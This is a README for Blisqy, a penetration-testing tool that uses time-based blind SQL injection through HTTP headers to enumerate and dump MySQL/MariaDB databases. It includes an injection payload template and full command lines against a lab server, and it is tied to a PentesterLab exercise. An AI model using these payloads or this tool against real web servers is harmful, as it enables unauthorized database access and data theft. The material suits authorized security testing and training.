 # Blisqy
A slow data siphon for MySQL/MariaDB using bitwise operation on printable ASCII characters, via a blind-SQL injection.

## Usage
```bash
USAGE:
blisqy.py --server <Web Server> --port <port> --header <vulnerable header> --hvalue <header value> 
          --inject <point of injection>  --payload <custom sql payload> --dig <yes/no> --sleeptime <default 0.5>

Options:
  -h, --help            show this help message and exit
  --server=WEBSERVER    Specify host (web server) IP
  --port=PORT           Specify port
  --header=VULNHEADER   Provide a vulnerable HTTP Header
  --hvalue=HEADERVALUE  Specify the value for the vulnerable header
  --inject=INJECTION    Provide where to inject Sqli payload
  --payload=PAYLOAD     Provide SQL statment/query to inject as payload
  --dig=DIGGER          Automatic Mysql-Schema enumeration (takes time!)
  --sleeptime=SLEEP     Sleep-Time for blind-SQLi query (default : 0.5)
  --interactive=INTERACT
                        Turn interactive mode on/off (default : off)
```


# Basics

Blisqy will assit you enumerate a MySQL/Maria DB after finding a Time-Based Blind Sql injection vulnerability on a web server. Currently, it supports injections on HTTP Headers. You should have identified a potential Blind Sql injection vulnerability on a Webserver as demonstrated on [Pentester-Lab (From SQL Injection to Shell II)](https://pentesterlab.com/exercises/from_sqli_to_shell_II/course)

So you can't run Blisqy without :

* `--server` : the vulnerable Webserver
* `--port`  : Which port is the webserver running on?
* `--header` : the identified vulnerable HTTP header
* `--hvalue` : value for the identified vulnerable HTTP header

and most imporntatly `--inject` : what to inject after the `hvalue` (SQLi Payload).



# Options :

## --inject

After identifying a Time-Based BlindSQL injection on a web-server, this option enables the user craft and insert SQL-injection payloads. The value for this option should look like this :

`--inject "' or if((*sql*),sleep(*time*),0) and '1'='1"`

Where 
* `*sql*` - is where SQL Payloads will be inserted and 
* `*time*` - is where Time-Based test will be inserted.

## --sleeptime 
Blisqy now accepts user set --sleeptime and it's inserted on `--inject *time*`. Always make sure you have fine tuned this value to resonates with your environment and network lantency.... Otherwise you'll be toased! (the lower the value, the faster we go).
E.g. 
`--sleeeptime 0.1`

## --payload
This option allows the user run their own custom SQL-injection payloads. Other options like `--dig` and `--interactive` **MUST** not be set (should be ignored) for this option to run.

### Example :

**Command**

```bash
./blisqy.py --server 192.168.56.101 --port 80 --header "X-Forwarded-For" --hvalue "hacker" 
           --sleeptime 0.1 --interactive on 
           --inject "' or if((*sql*),sleep(*time*),0) and '1'='1" 
           --payload "select @@hostname"
```
![Custom Payload](http://i.imgur.com/uB3s7Xk.png)


## --interactive

This option accept two values i.e on or off and it compliments option `--dig` (this option must be set to `yes`). If set as `--interactive on` the user will get to choose which discovered table to enumerate and decide if data from the table should be dumped or not. When set as "--interactive off", every table gets enumerated and all data dumped.

### Getting data from a Table :
The user can decide which columns to extract data from when `--interactive` is set on. The format looks something like this : 
`column1*column1*column2` - just the column names separated by an asterisk. User can also avoid data collection on a particular table by entering `skip` instead of the column names.

### Example :

**Command**

```bash
./blisqy.py --server 192.168.56.101 --port 80 --header "X-Forwarded-For" --hvalue "hacker" --dig yes 
            --sleeptime 0.1 --interactive on --inject "' or if((*sql*),sleep(*time*),0) and '1'='1"
```
![Dig A Specific Table](http://i.imgur.com/HNj8Dwx.png)


## To Do :
* Intergrate an inteligent Fuzzer for hunting SQL injection vulnerabrity(ies) on HTTP Headers and Web Elements
* Support Blind-SQLi enumeration of URLs and WEB Elements apart from HTTP Headers.
